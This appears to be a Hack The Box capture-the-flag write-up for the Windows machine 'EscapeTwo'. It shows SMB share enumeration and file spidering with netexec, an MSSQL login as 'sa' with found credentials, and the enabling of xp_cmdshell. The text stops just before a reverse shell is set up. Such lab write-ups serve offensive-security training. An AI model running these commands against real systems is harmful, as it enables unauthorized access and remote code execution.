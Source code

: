 
## Info  
  * IP: 10.10.11.51
  * OS: Windows
  * Difficulty: Easy
  * Initial credentials: `rose:KxEPkKe6R8su`

## Initial Scan

Let's start with an nmap scan to identify available services:
![Nmap Scan](/images/htb/machines/EscapeTwo/nmap.png "NMAP")

Our scan reveals the following key services:
- SMB (445)
- MSSQL Server (1433)
- Other standard Windows services

Let's add the target to our hosts file:
```
10.10.11.51 dc01.sequel.htb sequel.htb
```

## Enumeration

Enumerating the SMB shares using the provided credentials:

```
nxc smb dc01.sequel.htb -u 'rose' -p 'KxEPkKe6R8su' --shares
```

![SMB Shares](/images/htb/machines/EscapeTwo/rose-shares.png)

We find an "Accounting Department" share that's accessible. Let's see what's inside:

```
nxc smb dc01.sequel.htb -u 'rose' -p 'KxEPkKe6R8su' --shares -M spider_plus -o DOWNLOAD_FLAG=True
```

In the share, we discover some Excel files. After unzipping and analyzing them, we find credentials for the 'sa' user for the MSSQL server.

## MSSQL Exploitation

With the 'sa' credentials in hand, we can now connect to the MSSQL server:

```
impacket-mssqlclient sa:'MSSQLP@ssw0rd!'@dc01.sequel.htb
```

Once connected, we aim to enable xp_cmdshell to execute commands - `enable_xp_cmdshell`

![sa cmdshell](/images/htb/machines/EscapeTwo/sa-mssql-login.png)

Now that we can execute commands on the target machine, let's set up a reverse shell:
